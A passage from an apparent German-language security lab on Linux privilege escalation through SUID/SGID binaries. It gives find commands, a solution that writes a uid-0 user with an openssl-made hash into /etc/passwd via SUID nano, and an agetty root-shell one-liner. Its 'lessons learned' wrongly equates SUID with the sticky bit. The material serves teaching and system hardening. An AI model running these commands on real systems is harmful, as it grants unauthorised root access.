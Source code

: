 Dateien die mit dem SUID-/ SGID-Bit lassen sich mit dem `find` Befehl aufspüren:

```
find / -perm -u=s -user root 2>/dev/null
find / -perm -g=s -group root 2>/dev/null
```

### Exploit
Wie hilft uns das, root Rechte auf einer Maschine zu erlangen?
Auf [gtfobins](https://gtfobins.github.io/) kann man die Programme auf SUID filtern.

Aus manchen Programmen kann man bei gesetztem SUID/SGID Flag ausbrechen und und eine root-Shell spawnen. Wenn das SUID-/SGID-Bit auf einem Editor gesetzt ist, kann man alternativ auch die `/etc/passwd` Datei bearbeiten und eine neuen User mit root-Rechten anlegen.

### Aufgabe
Finde Dateien mit SUID/SGID-Bit und versuche root-Rechte zu erlangen.

### Lösung
Wir schauen, welche Dateien das SUD Bit gesetzt haben.

```
find / -perm -u=s -user root 2>/dev/null
```

In der Liste finden wir einen Editor (nano).
Damit können wir die schreibgeschützte ˙/etc/passwd` Datei editieren.

Wir erzeugen dafür einen Passwort-Hash.

```
openssl passwd -1 -salt foo password123
$1$foo$yKXUGOo1ZIgTvE6smA/W//
```

Wir fügen mit nano einen neuen User mit dem generierten Passwort-Hash in die `/etc/passwd` Datei ein.

```
jane:$1$foo$yKXUGOo1ZIgTvE6smA/W//:0:0:root:/root:/bin/bash
```

Oder ein bisschen einfacher: Wir spawnen eine root-Shell mit agetty (gefunden auf [gtfobins](https://gtfobins.github.io/gtfobins/agetty/)):

```
agetty -o -p -l /bin/sh -a root tty
```

Mit dem Befehl `su jane` können wir auf den neuen User wechseln - und haben eine root-shell.

### Lessons Learned
Durchsuche dein System mit den o.g. `find` Befehlen, welche Programme das Sticky-Bit gesetzt haben und prüfe auf [gtfobins](https://gtfobins.github.io/), ob das ausgenutzt werden kann.

## Capabilities
